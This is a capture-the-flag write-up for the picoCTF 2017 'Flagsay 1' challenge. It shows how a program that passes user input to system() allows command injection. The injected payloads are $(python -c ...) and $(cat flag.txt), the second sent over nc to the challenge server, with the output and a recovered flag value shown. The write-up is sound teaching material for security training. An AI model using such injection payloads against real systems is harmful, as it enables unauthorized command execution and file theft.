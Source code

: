 **Challenge name:** Flagsay 1      
**Description:** I heard you like flags, so now you can make your own! Exhilarating! Use flagsay-1! Source. Connect on shell2017.picoctf.com:37742.    
**Hint:** System will run exactly what the program gives it      
**File(s) provided:**      
- flagsay-1 (32-bit ELF)  
- flagsay-1.c (source code)  
---

# Step 0: Recon
Looking at the code, we can see that the program:  
- reads input (lines 53-56)
- adds a null terminator at the first ```\n``` (lines 57-60)
- passes the input to the ```placeInFlag``` function, which puts the input inside the flag ASCII art (line 61)
- adds ```/bin/echo ``` at the start of the output and passes it to system

Really?! Never pass user input to system commands without serious input validation, kids. And use whitelisting if you do.

# Step 1: Confirming command injection
```bash
# ./flagsay-1
$(python -c "print 1+1")
               _                                        
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
             //2           /     
            //                                   /      
           //                                   /       
          //                                   /        
         //                                   /         
        //                                   /          
       //___________________________________/           
      //                                                
     //                                                 
    //                                                  
   //                                                   
  //                                                    
 //  
```
Oh yeah, we've got system command execution.
 
# Step 2: Get flag
```bash
# nc shell2017.picoctf.com 37742
$(cat flag.txt)
               _                                        
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
             //697f4b6f43dc04baf91a01c7823f2412                    /     
            //                                   /      
           //                                   /       
          //                                   /        
         //                                   /         
        //                                   /          
       //___________________________________/           
      //                                                
     //                                                 
    //                                                  
   //                                                   
  //                                                    
 //  
```
